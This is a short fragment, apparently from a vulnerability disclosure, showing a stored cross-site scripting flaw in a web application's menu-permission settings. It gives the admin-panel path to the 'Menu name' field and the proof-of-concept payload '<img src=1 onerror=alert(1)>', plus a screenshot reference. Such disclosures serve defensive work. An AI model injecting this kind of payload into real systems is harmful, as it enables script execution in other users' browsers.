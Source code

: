 Organisational management -> Menu permission management -> Menu name, inject payload, \<img src=1 onerror=alert(1)>

![image-20250228201318684](assets/image-20250228201318684.png)
